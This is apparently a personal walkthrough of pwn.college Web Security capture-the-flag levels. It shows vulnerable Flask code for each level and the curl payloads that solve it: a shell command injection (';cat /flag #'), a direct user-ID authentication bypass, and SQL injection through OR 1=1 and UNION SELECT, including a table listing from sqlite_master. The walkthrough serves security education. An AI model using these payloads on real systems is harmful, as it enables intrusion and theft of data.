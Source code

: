 # Web Security

pwn.college [Web Security](https://pwn.college/intro-to-cybersecurity/web-security/) dojo.

## Level 2 - Command injection

Code for the level

```python
def level2():
    timezone = request.args.get("timezone", "UTC")
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
```

I want to inject `TZ=; cat /flag # date` into `TZ={timezone} date`.

```sh
curl "http://challenge.localhost:80?timezone=;%20cat%20/flag%20%23"
```

## Level 3 - Authentication bypass vulnerability

Code for the level

```python
def level3():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
        assert user, "Invalid `username` or `password`"

        return redirect(request.path, user=int(user["rowid"]))

    if "user" in request.args:
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```

I simply need to skip authentication and provide the user ID,

```sh
curl http://challenge.localhost:80?user=1
```

## Level 3 - SQL Injection

Code for this level:

```python
def level4():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```

This time, the user is stored in a `session` so we can't send it. Instead, we want to exploit the fact that the `username` and `password` are used to form the SQL string for authenticating the user. I want to change it to something like this;

```sql
SELECT rowid, * FROM users WHERE username = "flag" AND password = "" OR 1=1 --"
```

To do this, I use `curl` to login,

```sh
curl -v -c cookies.dat --data "username=flag" --data "password=%22 OR 1=1 --" -X POST http://challenge.localhost:80
```

Then I pull the session cookie out and follow the redirect,

```sh
curl -v -b session=eyJ1c2VyIjoxfQ.ZnCLHA.yyxgmZ5gotlukXOhlRf99GfV4RU http://challenge.localhost:80
```

## Level 5 - SQL injection using UNION

The code for this level,

```python
def level5():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM users WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```

In this case, I want to take advantage of the `query` parameter to create a SQL statement,

```sql
SELECT username FROM users WHERE username LIKE "" UNION SELECT password FROM users --"
```

I form this in `curl`,

```sh
curl -v http://challenge.localhost:80?query=%22%20UNION%20SELECT%20password%20FROM%20users%20--
```

## Level 6 - SQL injection with an unknown schema

```python
def level6():
    table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"
    db.execute((f"CREATE TABLE IF NOT EXISTS {table_name} AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM {table_name} WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```

Once again, use a UNION but this time to list tables, `SELECT name FROM sqlite_master`,

```sh
curl -v http://challenge.localhost:80?query=%22%20UNION%20SELECT%20name%20FROM%20sqlite_master%20--
```

This gives me the table name `table13213357520839709907` which I can use like in level 5,

```sh
curl -v http://challenge.localhost:80?query=%22%20UNION%20SELECT%20password%20FROM%20table13213357520839709907%20--
```
